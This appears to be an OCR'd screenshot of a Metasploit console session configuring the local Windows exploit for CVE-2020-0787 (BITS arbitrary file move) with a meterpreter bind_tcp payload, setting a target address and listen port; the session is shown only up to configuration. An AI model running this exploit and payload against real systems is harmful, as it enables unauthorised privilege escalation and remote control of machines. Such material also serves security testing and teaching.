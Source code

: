    Id  Name
   --  ----
   0   Windows DLL Dropper


msf5 exploit(windows/local/cve_2020_0787_bits_arbitrary_file_move) > set PAYLOAD windows/x64/meterpreter/bind_tcp
PAYLOAD => windows/x64/meterpreter/bind_tcp
msf5 exploit(windows/local/cve_2020_0787_bits_arbitrary_file_move) > show options

Module options (exploit/windows/local/cve_2020_0787_bits_arbitrary_file_move):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   JOB_WAIT_TIME  60               yes       Time to wait for the BITS job to complete before starting the USO service to execute the uploaded payload, in seconds
   OVERWRITE_DLL  false            yes       Overwrite WindowsCoreDeviceInfo.dll if it exists (false by default).
   SESSION                         yes       The session to run this module on.


Payload options (windows/x64/meterpreter/bind_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LPORT     4444             yes       The listen port
   RHOST                      no        The target address


Exploit target:

   Id  Name
   --  ----
   0   Windows DLL Dropper


msf5 exploit(windows/local/cve_2020_0787_bits_arbitrary_file_move) > set RHOST 172.26.22.128
RHOST => 172.26.22.128
msf5 exploit(windows/local/cve_2020_0787_bits_arbitrary_file_move) > set LPORT 9988
LPORT => 9988
msf5 exploit(windows/local/cve_2020_0787_bits_arbitrary_file_move) > show options

Module options (exploit/windows/local/cve_2020_0787_bits_arbitrary_file_move):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   JOB_WAIT_TIME  60               yes       Time to wait for the BITS job to complete before starting the USO service to execute the uploaded payload, in seconds
   OVERWRITE_DLL  false            yes       Overwrite WindowsCoreDeviceInfo.dll if it exists (false by default).
   SESSION                         yes       The session to run this module on.


Payload options (windows/x64/meterpreter/bind_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LPORT     9988             yes       The listen port
   RHOST     172.26.22.128    no        The target address

